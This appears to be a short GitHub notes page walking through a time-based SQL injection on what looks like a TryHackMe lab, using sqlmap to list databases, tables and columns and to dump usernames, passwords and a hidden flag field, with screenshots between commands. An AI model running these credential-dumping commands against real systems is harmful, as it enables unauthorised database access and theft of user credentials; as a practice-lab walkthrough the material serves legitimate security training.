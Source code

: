 # sqlmap for time based sqli attack

![Screenshot from 2024-05-24 13-03-27](https://github.com/Berlinshaju/penetrationtester/assets/66897078/61cc15ab-bc05-45d4-ae25-8bc8b2825451)
```
sqlmap -r request.txt --dbs --batch
```
![Screenshot from 2024-05-24 13-05-43](https://github.com/Berlinshaju/penetrationtester/assets/66897078/22c2b8d6-cfcf-4ddb-8ceb-a1eb08104dc5)

```
sqlmap -r request.txt --batch -D THM_f0und_m3 --tables
```
![Screenshot from 2024-05-24 13-08-18](https://github.com/Berlinshaju/penetrationtester/assets/66897078/7935e003-4834-488e-b332-6f79c84f4c14)

```
sqlmap -r request.txt --batch -D THM_f0und_m3 -T user --columns

```
![Screenshot from 2024-05-24 13-09-51](https://github.com/Berlinshaju/penetrationtester/assets/66897078/c6b00140-9f61-4d04-9a75-af219d3da633)
```
sqlmap -r request.txt --batch -D THM_f0und_m3 -T user -C username,password --sql-query "select username,password from user"

```

```
sqlmap -r request.txt --batch -D THM_f0und_m3 -T nothing_inside --columns

```
![Screenshot from 2024-05-24 13-11-42](https://github.com/Berlinshaju/penetrationtester/assets/66897078/91b87a35-3799-424d-b925-b6ddd8602929)

```
sqlmap -r request.txt --batch -D THM_f0und_m3 -T nothing_inside -C Easter_4 --sql-query "select Easter_4 from nothing_inside"

```
![Screenshot from 2024-05-24 13-12-57](https://github.com/Berlinshaju/penetrationtester/assets/66897078/66e3dffb-befc-45b5-aee4-cd4748484052)


